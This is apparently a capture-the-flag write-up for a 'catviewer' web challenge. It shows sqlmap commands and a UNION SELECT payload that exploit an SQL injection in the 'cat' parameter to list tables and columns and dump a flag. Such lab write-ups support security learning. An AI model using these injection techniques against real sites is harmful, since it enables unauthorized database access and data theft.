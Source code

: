https://nessus-catviewer.chals.io/index.php?cat=Shelton

this is an sql injection.

> sqlmap -u "https://nessus-catviewer.chals.io/index.php?cat=Shelton%20Gay" --dump

+-----+------+
| seq | name |
+-----+------+
| 195 | cats |
+-----+------+

> sqlmap -u "https://nessus-catviewer.chals.io/index.php?cat=Shelton%20Gay" -T cats --columns

+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| id     | INTEGER |
| image  | TEXT    |
| name   | TEXT    |
+--------+---------+

> sqlmap -u "https://nessus-catviewer.chals.io/index.php?cat=Shelton%20Gay" -T cats -C flag --dump

flag{a_sea_of_cats}



OR

" UNION SELECT 1,2,flag,4 from cats -- -

flag{a_sea_of_cats}

